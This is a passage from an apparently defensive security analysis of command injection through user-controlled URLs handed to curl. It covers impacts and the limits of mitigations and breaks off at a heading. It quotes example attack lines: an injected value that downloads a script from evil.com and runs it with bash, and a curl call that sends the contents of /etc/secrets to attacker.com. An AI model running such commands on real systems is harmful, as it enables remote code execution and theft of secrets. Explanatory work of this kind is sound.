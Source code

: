 * **Without proper quoting:** If the application executes this command directly in a shell, the shell will interpret the spaces and `&&` as command separators.
* **`evil.com`:** `curl` will attempt to fetch content from `evil.com`.
* **`-o /tmp/malicious_script`:**  `curl` will interpret this as an option to write the downloaded content to the file `/tmp/malicious_script`. The content downloaded from `evil.com` will be written to this file.
* **`&& bash /tmp/malicious_script`:** After the `curl` command (or what the shell interprets as the `curl` command), the shell will execute `bash /tmp/malicious_script`, running the potentially malicious script downloaded from `evil.com`.

**4.4. Expanding on Impact Scenarios:**

Beyond the direct command execution example, consider these potential impacts:

* **Data Exfiltration:** An attacker could construct a URL that sends sensitive data to an external server they control. For example, `curl "https://attacker.com/log?data=$(cat /etc/secrets)"` (if command injection is possible).
* **Denial of Service (DoS):** An attacker could force the application to make a large number of requests to a specific server, potentially overloading it or the application's resources.
* **Bypassing Access Controls:** If the application uses the fetched content to make decisions, an attacker could manipulate the URL to fetch content that bypasses intended access controls.
* **Exploiting Vulnerabilities in Target Servers:** If the application is used to interact with other internal services, a manipulated URL could target known vulnerabilities in those services.

**4.5. Limitations of Mitigation Strategies (and Potential Improvements):**

While the provided mitigation strategies are essential, it's important to understand their limitations and potential improvements:

* **Input Validation and Sanitization:**
    * **Limitations:**  Complex URL structures and encoding can make it difficult to create foolproof validation rules. Attackers may find ways to bypass regular expressions or simple checks.
    * **Improvements:**  Employ multiple layers of validation, including whitelisting allowed characters and patterns, and blacklisting known malicious patterns. Use URL parsing libraries to break down the URL into its components and validate each part individually.
* **Allow-lists of Allowed Domains or Protocols:**
    * **Limitations:** Maintaining an up-to-date and comprehensive allow-list can be challenging. New legitimate domains might be blocked, and attackers might find ways to register domains similar to allowed ones.
    * **Improvements:**  Regularly review and update the allow-list. Consider using a more granular approach, allowing specific paths or resources within allowed domains.
* **Avoiding Direct Embedding of User Input into Shell Commands:**
    * **Importance:** This is the most critical mitigation for preventing command injection.
    * **Improvements:**  Never directly concatenate user input into shell commands. Use parameterized queries or dedicated libraries for interacting with external processes that handle quoting and escaping automatically. If `curl` must be invoked via the shell, carefully construct the command with proper quoting using shell escaping functions provided by the programming language.
* **Utilizing URL Parsing Libraries:**
    * **Benefits:** URL parsing libraries provide a structured way to work with URLs, making it easier to validate and manipulate individual components safely.
    * **Considerations:** Ensure the chosen library is well-maintained and has a good security track record.

**4.6. Advanced Attack Scenarios:**
